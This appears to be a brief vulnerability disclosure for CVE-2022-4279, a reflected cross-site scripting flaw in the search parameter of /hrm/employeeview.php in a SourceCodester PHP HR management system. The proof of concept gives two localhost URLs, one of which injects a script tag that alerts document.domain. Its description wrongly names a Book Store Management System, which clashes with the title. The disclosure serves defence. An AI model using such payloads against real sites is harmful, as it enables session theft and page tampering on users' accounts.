


# [CVE-2022-4279](https://www.cve.org/CVERecord?id=CVE-2022-4279)

SourceCodester Human Resource Management System 1.0 /hrm/employeeview.php Cross Site Scripting

Description: Vulnerability was found in SourceCodester Book Store Management System 1.0. A Reflected cross-site scripting (XSS) vulnerability in /hrm/employeeview.php with search handler.

The product(s): https://www.sourcecodester.com/php/15740/human-resource-management-system-project-php-and-mysql-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/hrm.zip

Affected component(s): /hrm/employeeview.php

# Proof of Concept:

Find an injection

http://localhost/employeeview.php?searchview=Submit+Query&search="tusnj"#

XSS Exploit

http://localhost/hrm/employeeview.php?searchview=Submit+Query&search=sss%22%3E%3Cscript%3Ealert(document.domain)%3C/script%3E%3Cinput

